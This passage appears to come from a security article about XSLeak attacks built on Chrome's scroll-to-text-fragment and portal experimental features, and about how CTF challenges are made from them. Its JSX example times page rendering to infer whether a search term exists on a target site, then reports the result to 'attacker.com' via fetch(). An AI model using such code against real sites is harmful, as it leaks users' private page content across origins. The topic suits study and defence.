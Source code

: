 ```jsx
function measureProcessingTime(targetUrl, searchTerm) {
  const startTime = performance.now();
  let frameCount = 0;

  const measureFrame = () => {
    frameCount++;
    if (frameCount < 60) {
      requestAnimationFrame(measureFrame);
    } else {
      const avgFrameTime = (performance.now() - startTime) / frameCount;

      if (avgFrameTime > 20) {
        fetch(
          `https://attacker.com/leak?found=${searchTerm}&timing=${avgFrameTime}`
        );
      }
    }
  };

  window.open(
    `${targetUrl}#:~:text=${encodeURIComponent(searchTerm)}`,
    "_blank"
  );
  requestAnimationFrame(measureFrame);
}
```

The above example conducts time measurement using `performance` API for 1 second, then judges text existence based on whether processing time is above threshold. Like this, XSLeak vulnerabilities can be manifested in various ways using STTF functionality and various APIs, and attackers use appropriate methods suitable for their situations to leak information about target sites.

### How does the XSLeak experimental feature apply to CTF?

Chrome's experimental features often don't have as much security-related processing compared to other general functions. Most functions have undergone security processing and stabilization work over countless hours, but experimental features have relatively less such processing proportions. Therefore, experimental features can only be used after separately allowing them in Chrome browser's separate settings.

For such reasons, experimental features are sometimes presented as challenges in CTFs or Wargames.

Generally, experimental features rarely appear as challenges in Wargames because it's uncertain whether such features will definitely be applied as official functions in browsers and they are functions with ongoing updates.

However, CTFs with clear progress times sometimes configure challenges using experimental features, though not frequently. This section describes how XSLeak vulnerabilities occurring in portal and STTF among Chrome's experimental features can actually be applied to CTF challenge creation.

**Restriction bypass and XSLeak using portal**

Portal performs similar roles to iframe but is a function with much more inadequate security-related processing than iframe functions. Problem setters can implement challenges using this characteristic.
